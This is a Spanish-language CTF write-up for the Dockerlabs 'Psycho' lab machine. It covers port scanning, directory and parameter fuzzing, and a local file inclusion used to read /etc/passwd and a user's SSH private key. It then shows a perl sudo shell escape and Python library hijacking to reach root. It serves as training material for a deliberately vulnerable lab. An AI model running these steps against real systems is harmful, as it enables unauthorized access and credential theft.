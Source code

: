 # MACHINE PSYCHO

## Información General

- **Plataforma**: Dockerlabs
- **Sistema Operativo**: Linux
- **Dificultad**: Fácil

  ![machine](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/psycho/machine.png)

## DESPLIEGUE
```python
bash auto_deploy.sh psycho.tar
```
![despliegue](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/psycho/despliegue.png)

## RECONOCIENTO
```python
nmap -p- -sS --min-rate 5000 -vvvv -n -Pn -sCV 172.17.0.2 -oN ports
```
```ruby
# Nmap 7.94SVN scan initiated Sat Mar  1 20:14:56 2025 as: nmap -p- -sS --min-rate 5000 -vvvv -n -Pn -sCV -oN ports 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000013s latency).
Scanned at 2025-03-01 20:14:56 -05 for 8s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 38:bb:36:a4:18:60:ee:a8:d1:0a:61:97:6c:83:06:05 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLmfDz6T3XGKWifPXb0JRYMnpBIhNV4en6M+lkDFe1l/+EjBi+8MtlEy6EFgPI9TZ7aTybt2qudKJ8+r3wcsi8w=
|   256 a3:4e:4f:6f:76:f2:ba:50:c6:1a:54:40:95:9c:20:41 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHtGVi9ya8KY3fjIqNDQcC9RuW20liVFDd+uUEgllPzQ
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-title: 4You
|_http-server-header: Apache/2.4.58 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Mar  1 20:15:04 2025 -- 1 IP address (1 host up) scanned in 8.82 seconds
```
## EXPLOTACION
![weberro](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/psycho/PAGINA%20ERROR.png)

Podemos fijarnos que hay un mensaje en la parte izquiera final de la web, indicando un error, como si una solicitud se estuviera tramitando mal
ya esto nos recuerda un poco a la Vulnerabilidad de LFI, realizaremos una fuerza bruta para descubrir directorios con gobuster

```ruby
gobuster dir -u http://172.17.0.2/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x html,txt,php,xml,csv,txt,html -t 20 -b 500,502,404
```
![gobuster](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/psycho/gobuster.png)

Vemos que tenemos una carpetita `assets`, si sapeamos es una imagen, eh aplicado esteganografia para ver si hay data oculta pero no hay nada

![assets](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/psycho/assets.png)

index.php nos dirige a la misma web, entonces vamos a aplicar un Fuzzing para ver si descubrimos un parametro y explotar un posible LFI
```ruby
wfuzz -c --hc=404,500 --hw=169 -t 200 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u 'http://172.17.0.2/index.php?FUZZ=whoami'
```
![Wfuzz](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/psycho/wfuzz.png)

Como vemos tenemos un parámetro secret incluido en el index.php, vamos a la URL modificamos y tratamos de leer el `/etc/passwd` y bingo
tenemos 2 Usuarios que son: vaxei y luisillo 

![users](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/psycho/users.jpg)

Entonces la unica forma que tenemos de aprovechar un inicio de sesión por ssh es con el id_rsa de los usuarios, pero para esto se tiene que apicar un Path Transversal porque asi nomas no deja y ojo: eh buscado el id_rsa del user Luisillo y no hay, solo se encuentra el de user vaxei

![id_rsa_vaxei](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/psycho/id_rsa_vaxei.png)

extraemos el id_rsa y copiamos en un archivo que crearemos en nuestra maquina atacante, IMPORTANTE: darle permiso `chmod 600 id_rsa`

![permisos_id_rsa](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/psycho/permisos_id_rsa.png)

```ruby
ssh -i id_rsa vaxei@172.17.0.2
```
![login_vaxei](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/psycho/login_vaxei.png)

## ESCALADA DE PRIVILEGIOS
La manera mas sencilla hacer 
```ruby
sudo -l
```
si no, podemos aprovechar permisos SUID pero este no es el caso, podemos observar que el usuario Luisillo puede ejecutar `/usr/bin/perl`, es decir nos convertiremos primero en luisillo para luego escalar a root

![gtfobins](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/psycho/gtfobins.png)

```ruby
sudo -u luisillo /usr/bin/perl -e 'exec "/bin/bash";'
```
![luisillo](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/psycho/luisillo.png)

Volvemos a realizar un `sudo -l` con el usuario luisillo y vemos que podemos ejecutar comandos con todos los permisos pero en un solo archivo específico

![pivi_luisillo](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/psycho/privi_luisillo.png)



al poder ver el contenido del archivo ``paw.py`, podemos aplicar una tecnica llamada *Python Library Jihacking*, para poder secuestrar una libreria y al 
momento de ejecutar el script, se ecute el script llamado igual que la libreria y ganar acceso

![subprocess](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/psycho/subprocess.png)


ejecutamos el paw.py y hemos ganado acceso como root

![root](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/psycho/root.png)


# ELIMINAR LA MAQUINA
```shell
Ctrl + C
```






